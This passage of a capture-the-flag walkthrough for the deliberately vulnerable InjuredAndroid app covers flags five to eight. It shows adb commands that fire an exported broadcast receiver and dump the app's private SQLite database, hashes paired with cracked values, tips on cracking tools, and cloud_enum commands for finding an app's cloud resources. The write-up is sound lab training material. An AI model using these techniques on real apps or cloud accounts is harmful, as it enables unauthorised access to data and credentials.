 **Command:**

```
adb shell am broadcast -n b3nac.injuredandroid/.FlagFiveReceiver
```

**Response:** Run this 3 times — the lab reveals the flag. (No need to submit manually.)

---

# 6) Flag-Six — Login3 (unsolved)

Not solved yet. Requires further analysis.

---

# 7) Flag-Seven — SQLITE

**Explanation:** The app has a SQLite DB `Thisisatest.db`. Inside, flags are stored as hashed or encoded values.

**Commands:**

```
adb shell
cd /data/data/b3nac.injuredandroid/databases
sqlite3 Thisisatest.db
sqlite> select * from Thisisatest;
```

**Example Response:**

```text
1|The flag hash!|2ab96390c7dbe3439de74d0c9b0b1767 = hunter2
2|The flag is also a password!|9EEADi^^:?;... = S3V3N_11
```

**Tip:**

- Use CrackStation to crack hashes.
- Use ROT-47 decoder (e.g., dCode) for encoded strings.

---

# 8) Flag-Eight — A'W'S credentials in resources

```
<string name="YOUR_ID">AWD_ID</string>
<string name="YOUR_SECRET">YOUR_ECRET_KEY</string>
```

**Lab hint:** Use `cloud_enum` to search for resources.

**Commands:**

```
git clone https://github.com/initstring/cloud_enum.git
cd cloud_enum
python3 -m pip install -r requirements.txt
python3 cloud_enum.py -k injuredandroid
```

---